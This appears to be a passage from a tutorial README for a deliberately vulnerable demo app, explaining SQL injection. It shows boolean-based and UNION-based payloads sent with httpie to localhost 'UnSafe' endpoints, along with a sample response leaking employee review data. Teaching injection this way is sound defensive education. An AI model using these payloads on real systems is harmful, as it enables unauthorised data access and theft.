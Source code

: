     http http://localhost:8080/filterUserJpaStoredProcedureUnSafe name=="Bilbo' or '1' = '1"

### Different types of SQL Injection Techniques
You can easily divide the SQL Injection attacks based on different techniques used to exploit the vulnerability. Here we will talk about some of the most common ones.

#### 1. Boolean based
This is the most common technique used while doing SQL Injection attacks wherein you try to get more information from the application, then it was intended to return.

So for instance there is a web endpoint to filter the list of employees in the company and we use that to inject SQL to get list of all employees in the system.

Find all the employees who have name "Bilbo"

    http http://localhost:8080/filterUserJdbcUnSafe name=="Bilbo"
    
And this could be used by hacker to get list of all the employees by adding a boolean clause "or '1' = '1"" like this:

    http http://localhost:8080/filterUserJdbcUnSafe name=="Bilbo' or '1' = '1"

#### 2. Union
In this the hacker adds a UNION SQL clause to the SELECT query which is vulnerable and the response would then contain data from other table if specified. 

    http http://localhost:8080/filterUserGlobalAccessUnSafe name=="Bilbo' union all select 1, concat(review,'-----',rating),review,  'STAFF'  from management.employee_review where '1'='1"
    HTTP/1.1 200 
    Connection: keep-alive
    Content-Type: application/json
    Date: Mon, 30 Mar 2020 14:53:34 GMT
    Keep-Alive: timeout=60
    Transfer-Encoding: chunked
    
    [
        {
            "id": 1,
            "name": "Bilbo",
            "role": "MANAGER"
        },
        {
            "id": 1,
            "name": "Good performance-----5",
            "role": "STAFF"
        },
        {
            "id": 1,
            "name": "okay performance-----3",
            "role": "STAFF"
        }
    ]


For this attack to work you need to know how many columns are been returned by normal query and what are the data types, otherwise the query would fail since column count doesn't match. And the trick to know other table names and column is to do use the 'Inference/Blind' technique and get details from "INFORMATION_SCHEMA" database.
